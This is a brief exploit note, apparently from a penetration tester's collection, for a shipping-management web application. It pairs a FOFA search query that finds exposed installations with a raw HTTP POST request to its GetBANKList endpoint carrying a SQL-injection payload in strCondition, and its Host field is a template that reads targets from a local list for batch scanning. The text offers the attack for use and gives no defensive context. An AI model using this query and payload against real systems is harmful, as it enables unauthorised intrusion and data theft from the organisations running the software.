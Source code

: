 fofa语法：title="body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo_whp.js" || body="dongshengsoft" || body="theme/dhtmlxcombo.css"

poc:
POST /MvcShipping/MsBaseInfo/GetBANKList HTTP/1.1
Host: {{file:line(M:\工具\应用\PentestTools\Tools\ProxyTools\Yakit\Yakit\yakit-projects\temp\tmp2686952360.txt)}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Length: 456

strCondition=1'
